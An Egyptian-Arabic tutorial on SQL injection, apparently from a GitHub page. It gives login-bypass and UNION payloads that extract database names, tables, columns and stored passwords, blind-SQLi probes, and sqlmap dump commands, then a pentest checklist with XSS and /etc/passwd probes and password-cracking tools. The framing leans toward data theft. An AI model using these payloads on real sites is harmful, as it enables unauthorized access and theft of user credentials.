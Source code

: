 ## **📌 SQL Injection – شرح عميق وبسيط لأخطر ثغرة في قواعد البيانات 🔥**

### **🔵 1️⃣ إيه هو SQL Injection؟ 🤔**

ثغرة **SQL Injection (اختصارها SQLi)** هي ثغرة بتحصل لما الهاكر **يدخل كود SQL خبيث** في مدخل بيانات زي **اسم المستخدم أو كلمة المرور أو مربع البحث**، والموقع **ما بيعملش تحقق كويس على المدخلات**، فـ الهاكر يقدر **يعدل أو يسحب بيانات من قاعدة البيانات** أو حتى **يمسح البيانات بالكامل!** 😱

### **✅ مثال عملي على SQL Injection في تسجيل الدخول**

تخيل عندك موقع بيسمح بتسجيل الدخول، والاستعلام بيكون كده:

```sql
SELECT * FROM users WHERE username = 'admin' AND password = '12345';
```

الموقع بيتأكد إن اسم المستخدم وكلمة المرور صح قبل تسجيل الدخول.

🔥 **لكن لو الهاكر كتب حاجة زي دي في اسم المستخدم:**

```sql
' OR '1'='1' -- 
```

هيتحول الاستعلام إلى:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' -- AND password = '';
```

🚀 **بما إن 1=1 دايمًا صح، الموقع هيسمح بتسجيل الدخول بدون كلمة سر!**

📌 **💡 الخلاصة بالعامية:**  
"الثغرة دي بتسمحلك تدخل أو تعدل بيانات في قاعدة البيانات عن طريق كتابة أكواد SQL في أي مكان بياخد إدخال من المستخدم!" 🔥

---

### **🔵 2️⃣ إزاي تعرف إن الموقع مصاب بثغرة SQL Injection؟ 🔍**

1️⃣ **جرب إدخال ' في أي مكان فيه إدخال بيانات** (زي البحث أو تسجيل الدخول)، وشوف لو ظهر **خطأ SQL**، زي:

```
You have an error in your SQL syntax...
```

🔥 **ده معناه إن الموقع بيستخدم SQL بطريقة غير آمنة!**

2️⃣ **جرب تضيف استعلام زي:**

```sql
' OR '1'='1' -- 
```

**لو سجل دخولك من غير باسورد، فالموقع مصاب بالثغرة!**

📌 **💡 الخلاصة بالعامية:**  
"لو الموقع وقع لما تدخل ' أو سمحلك تدخل من غير باسورد، يبقى فيه SQL Injection!" 😈

---

### **🔵 3️⃣ إزاي تسرق البيانات باستخدام SQL Injection؟ 😏**

#### **🎯 استخراج أسماء قواعد البيانات**

```sql
' UNION SELECT schema_name, NULL FROM information_schema.schemata --
```

🔥 **هيعرض كل قواعد البيانات الموجودة على السيرفر!**

#### **🎯 استخراج الجداول داخل قاعدة بيانات معينة**

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema='database_name' --
```

🔥 **هيعرض كل الجداول اللي جوه قاعدة بيانات محددة!**

#### **🎯 استخراج أسماء الأعمدة في جدول معين**

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' --
```

🔥 **كده عرفت كل أسماء الأعمدة في جدول المستخدمين!**

#### **🎯 استخراج بيانات المستخدمين (مثلاً الأسماء والباسوردات)**

```sql
' UNION SELECT username, password FROM users --
```

🔥 **هيعرض كل أسماء المستخدمين والباسوردات المخزنة في قاعدة البيانات!**

📌 **💡 الخلاصة بالعامية:**  
"لو عندك SQL Injection، تقدر تستخرج كل البيانات السرية زي المستخدمين والباسوردات بسهولة!" 🔥😈

---

### **🔵 4️⃣ أنواع SQL Injection 🩸**

1️⃣ **🔹 SQL Injection العادي (Classic SQLi)**

- بتحصل لما الموقع **ما بيعملش تحقق على المدخلات**، وبتقدر تدخل أكواد SQL مباشرة زي:

```sql
' OR 1=1 -- 
```

- 🔥 **ده بيخلي الموقع يرجع كل البيانات!**

2️⃣ **🔹 SQL Injection الأعمى (Blind SQLi)**

- بيحصل لما **الموقع ما بيعرضش أخطاء SQL**، لكن تقدر تعرف إنه مصاب من خلال **تغيير في سلوك الموقع**.
- جرب إدخال:
    
    ```sql
    ' AND 1=1 -- 
    ```
    
    - **لو الموقع رجّع بيانات، جرب:**
    
    ```sql
    ' AND 1=2 -- 
    ```
    
    - **لو الموقع رجّع نتيجة مختلفة، يبقى مصاب بـ Blind SQLi!**

📌 **💡 الخلاصة بالعامية:**  
"فيه SQL Injection بيعرض أخطاء، وفيه اللي مش بيعرض لكن تقدر تكتشفه عن طريق التجربة!" 😏

---

### **🔵 5️⃣ استغلال SQL Injection باستخدام الأدوات 🚀**

### **✅ 1- استخدام أداة SQLMap 🔥**

📌 **SQLMap** هي أداة قوية بتفحص المواقع عن SQL Injection تلقائيًا.

#### **🎯 تنفيذ فحص تلقائي:**

```bash
sqlmap -u "https://example.com/index.php?id=1" --dbs
```

🔥 **هيكشف كل قواعد البيانات المتاحة!**

#### **🎯 استخراج أسماء الجداول:**

```bash
sqlmap -u "https://example.com/index.php?id=1" -D database_name --tables
```

🔥 **هيعرض كل الجداول اللي جوه قاعدة بيانات معينة!**

#### **🎯 استخراج بيانات المستخدمين:**

```bash
sqlmap -u "https://example.com/index.php?id=1" -D database_name -T users --dump
```

🔥 **هيستخرج كل بيانات المستخدمين من الجدول!**

📌 **💡 الخلاصة بالعامية:**  
"أداة SQLMap بتختصر الوقت جدًا، بتفحص الموقع وتجيبلك البيانات كلها تلقائي!" 🔥🚀

---

## **📌 🔥 خطوات عملية لاختبار اختراق مواقع الويب (Web Penetration Testing) 🔥**

### **1️⃣ جمع المعلومات (Reconnaissance) 🔍**

- استخدم **Google Dorking** للبحث عن الصفحات الحساسة.
- فحص **Subdomains** باستخدام أدوات زي `Sublist3r`.
- فحص **IP و DNS Records** باستخدام `dig` و `nslookup`.

### **2️⃣ فحص الثغرات (Scanning) 🔥**

- استخدم `Nmap` لفحص المنافذ المفتوحة والخدمات.
- استخدم `Nikto` و `Dirb` لاكتشاف الملفات والمجلدات المخفية.

### **3️⃣ تجربة استغلال الثغرات (Exploitation) 🚀**

- اختبار **SQL Injection** باستخدام `sqlmap`.
- اختبار **XSS** بإدخال `<script>alert('XSS')</script>`.
- اختبار **LFI و RFI** بتجربة `/etc/passwd` في مدخلات الملفات.

### **4️⃣ محاولة رفع الامتيازات (Privilege Escalation) 🔥**

- استغلال **ثغرات السيرفر** للوصول إلى صلاحيات أعلى.
- تجربة **تخمين كلمات المرور** باستخدام `hydra` أو `John the Ripper`.

### **5️⃣ كتابة التقرير (Reporting) 📝**

- توثيق جميع الثغرات المكتشفة.
- اقتراح حلول للحماية.

---

## **🔥💡 ملخص شامل بالعامية 🔥💡**

1️⃣ **SQL Injection ثغرة بتسمحلك تسرق بيانات قاعدة البيانات باستخدام أكواد خبيثة.**  
2️⃣ **بنكتشفها عن طريق إدخال أكواد اختبارية في البحث أو تسجيل الدخول.**  
3️⃣ **بنستغلها لجلب البيانات الحساسة زي المستخدمين وكلمات المرور.**  
4️⃣ **نستخدم أدوات زي SQLMap عشان نسهل الاختراق.**  
5️⃣ **اختبار اختراق الويب بيتم على مراحل: جمع معلومات، فحص ثغرات، استغلال، رفع امتيازات، وتوثيق النتائج.**

🔥 **باختصار: SQL Injection من أخطر الثغرات، ولو موقعك مش محمي، بياناتك في خطر! 😈**